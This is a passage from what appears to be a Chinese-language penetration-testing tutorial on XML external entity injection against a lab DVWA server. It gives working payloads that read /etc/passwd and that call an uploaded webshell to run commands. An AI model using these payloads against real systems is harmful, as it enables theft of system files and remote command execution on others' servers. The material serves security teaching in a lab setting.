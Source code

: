 在这里，我们仅定义了一个实体，并将值 `Mr Bob` 设置给它。解析器解释实体并在显示结果时替换其值：

![](img/8396a7da-bf92-4546-abc9-3baa2639bf22.png)

1.  这就是内部实体的使用。让我们试试外部实体：

```
<!DOCTYPE fileEntity [
 <!ELEMENT fileEntity ANY>
 <!ENTITY fileEntity SYSTEM "file:///etc/passwd">
 ]>
 <somexml><message>Hello World &fileEntity;</message></somexml>
```

在结果中，我们可以看到注入返回了文件的内容：

![](img/5d38613a-c227-4d9c-97ad-22412815484c.png)

使用此技术，我们可以提取系统中任何可由 Web 服务器运行的用户读取的文件。

1.  我们还可以使用 XEE 来加载网页。在 *滥用文件包含* 中，我们成功地将 Webshell 上传到服务器。我们来尝试访问它：

```
<!DOCTYPE fileEntity [ <!ELEMENT fileEntity ANY> <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/webshell.php?cmd=/sbin/ifconfig"> ]> <somexml><message>Hello World &fileEntity;</message></somexml>
```
